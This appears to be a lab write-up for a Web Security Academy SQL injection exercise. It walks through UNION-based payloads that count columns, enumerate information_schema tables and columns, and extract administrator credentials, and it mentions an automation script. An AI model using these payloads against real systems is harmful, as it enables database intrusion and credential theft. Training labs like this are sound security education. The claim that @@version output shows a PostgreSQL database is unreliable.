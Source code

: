 # SQL Injection Lab 05 - SQL injection attack, listing the database contents on non-Oracle databases

## Manual Solution

1. Access the lab in Web Security Academy
2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: Error (confirms 2 columns)

3. Verify column data types:
   - Test: `/filter?category=Gifts' UNION SELECT '1', '2'--`
   - Result: Values '1' and '2' displayed (confirms string compatibility)

4. Verify database version:
   - Test: `/filter?category=Gifts' UNION SELECT NULL,@@version --`
   - Result: Database version information displayed. So the database is PostgreSQL.

5. List the database contents:
   - Test: `/filter?category=Gifts' UNION SELECT NULL,table_name FROM information_schema.tables --`
   - Result: List of tables in the database. There are many tables, we don't know which one has the username and password.

6. List the columns like %username% and %password%:
   - Test: `/filter?category=Gifts' UNION SELECT table_name,column_name FROM information_schema.columns WHERE column_name LIKE '%username%' OR column_name LIKE '%password%' --`
   - Result: You'll see a table starts with users_... and its columns. Example: users_ylbcwc and its columns are username_fyrfao and password_izzwei.

7. Extract the username and password:
   - Test: `/filter?category=Gifts' UNION SELECT [YOUR COLUMN NAME],[YOUR COLUMN NAME] FROM [YOUR_TABLE_NAME]--`
   - Result: administrator and password

8. Login to the administrator account

## Automated Solution

1. Download the script
2. Run the script with the following command: python sqli_lab_05.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

